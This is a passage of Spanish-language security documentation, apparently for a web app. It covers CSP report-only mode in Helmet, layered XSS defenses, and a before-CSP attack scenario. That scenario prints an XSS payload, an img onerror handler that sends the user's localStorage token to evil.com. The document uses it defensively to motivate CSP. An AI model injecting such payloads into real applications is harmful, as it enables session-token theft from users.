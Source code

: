 
### 8.4. Report-Only Mode (Para Testing)

```typescript
contentSecurityPolicy: {
  reportOnly: true, // ⚠️ Solo reporta, NO bloquea
  directives: { ... },
},
```

**Uso:** Testing en producción sin romper nada
- Genera reportes de violaciones
- NO bloquea recursos
- Después de validar → cambiar a `reportOnly: false`

---

## 9. Capas de Defensa contra XSS

### Defensa en Profundidad (Defense in Depth)

| Capa | Mecanismo | Estado |
|------|-----------|--------|
| **1. Validación** | class-validator | ✅ Implementado |
| **2. Sanitización** | sanitize-html (78 campos) | ✅ Implementado |
| **3. Output Encoding** | React escaping automático | ✅ Por defecto |
| **4. CSP** | Helmet + CSP restrictivo | ✅ **Implementado** |
| **5. HttpOnly Cookies** | N/A (usamos JWT headers) | ⚠️ No aplicable |

**Resultado:** **4 de 5 capas** implementadas → **XSS prácticamente imposible**

---

## 10. Impacto en Seguridad

### Antes (Sin CSP):

**Escenario:** Atacante logra bypassear sanitización

```javascript
// Payload inyectado en DB (bypassing sanitization)
customer.notes = "<img src=x onerror='fetch(\"https://evil.com?t=\"+localStorage.token)'>";
```

**Sin CSP:**
- ✅ Script se ejecuta
- ✅ Token robado
- ❌ Usuario comprometido

---
